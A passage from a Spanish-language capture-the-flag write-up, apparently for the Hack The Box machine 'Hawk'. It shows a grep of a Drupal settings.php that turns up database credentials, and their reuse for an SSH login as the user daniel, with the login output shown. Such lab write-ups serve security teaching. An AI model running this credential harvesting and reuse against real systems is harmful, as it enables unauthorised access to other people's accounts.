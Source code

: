 
Como podemos observar, el contenido es diferente, por lo que debemos estar pensando en hacer un *Remote/Local Port Forwarding*. Para este caso utilizaremos un *Local Port Forwarding* porque debido a unas políticas de la plataforma, no te permite realizar *Remote Port Forwarding*. Podemos consultar información información en la siguiente liga:

[booleanworld](https://www.booleanworld.com/guide-ssh-port-forwarding-tunnelling/)

Para realizar el *Local Port Forwarding* necesitamos credenciales válidas de acceso por el puerto `ssh`, por lo que sabemos que un usuario potencia es **daniel**, ahora tenemos que encontrar la contraseña de dicho usuario. Investigando un poco, encontramos el recurso `/var/www/html/sites/default/settings.php` y se observan unas posibles credenciales de acceso

```bash
www-data@hawk:/var/www/html/sites/default$ cat settings.php | grep -i -E "username|password"
 *   'username' => 'username',
 *   'password' => 'password',
 * username, password, host, and database name.
 *   'username' => 'username',
 *   'password' => 'password',
 *   'username' => 'username',
 *   'password' => 'password',
 *     'username' => 'username',
 *     'password' => 'password',
 *     'username' => 'username',
 *     'password' => 'password',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
 * by using the username and password variables. The proxy_user_agent variable
# $conf['proxy_username'] = '';
# $conf['proxy_password'] = '';
www-data@hawk:/var/www/html/sites/default$
```

Ahora probaremos las credenciales *"daniel:drupal4hawk"* en el servicio **ssh**:

```bash
❯ ssh daniel@10.10.10.102
daniel@10.10.10.102's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Sep 17 06:14:20 UTC 2021

  System load:  0.0               Processes:           173
  Usage of /:   47.5% of 7.32GB   Users logged in:     0
  Memory usage: 58%               IP address for eth0: 10.10.10.102
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

417 packages can be updated.
268 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Sep 17 06:02:50 2021 from 10.10.14.2
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
```